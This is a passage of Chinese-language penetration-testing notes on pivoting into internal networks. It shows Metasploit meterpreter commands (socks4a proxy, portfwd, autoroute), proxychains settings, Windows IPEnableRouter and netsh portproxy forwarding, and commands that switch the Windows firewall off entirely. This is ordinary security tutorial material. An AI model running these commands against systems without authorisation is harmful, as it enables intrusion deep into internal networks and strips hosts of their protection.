 ```
`meterpreter> background` `msf> use auxiliary/server/socks4a` `msf auxiliary(socks4a)> set srvhost 本机地址` `msf auxiliary(socks4a)> set srvport 想要监听的端口` `msf auxiliary(socks4a)> run`
```

4. 在proxychains配置文件中添加sock4代理规则，即可通过proxychains实现流量转发

5. 实现端口转发

```
meterpreter> portfwd add -L 本地地址 -l 本地空闲端口 -p 目标端口 -r 目标地址
```

6.获取双网卡主机B的控制权（使用bindTCP的payload，因为反向shell无法路由到攻击机），获取到meterpreter会话之后添加路由规则

```
meterpreter> run autoroute -s 192.168.12.0/24
```

7. 再次配置流量转发代理（再开个新端口）

```
msf auxiliary(socks4a) > set SRVPORT 空闲端口
```

8. 修改proxychains配置文件，取消下文的注释，添加新的socks4代理

```
`dynamic_chain` `proxy_dns` `tcp_read_time_out 15000` `tcp_connect_time_out 8000`
```

利用系统自带功能

Windows 双网卡路由

* * *

双网卡Windows主机作为路由：

1.通过注册表允许网卡进行流量转发： 修改以下注册表项目为1 

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\ Services\Tcpip \Parameters 中的 IPEnableRouter 
```

2. 开启 Routing and Remote Access 服务

3. 两侧主机添加静态路由规则，路由指向双网卡主机

Windows netsh命令端口转发

* * *

管理员权限cmd执行 

```
netsh interface portproxy add v4tov4 listenaddress=本地iP listenport=本地端口 connectaddress=转发目标 connectport=转发端口 （ add 换成 delete 就是删除啦~）
```

不成功的话，先关闭防火墙

```
netsh firewall set opmode disable 或 netsh advfirewall set allprofiles state off
```
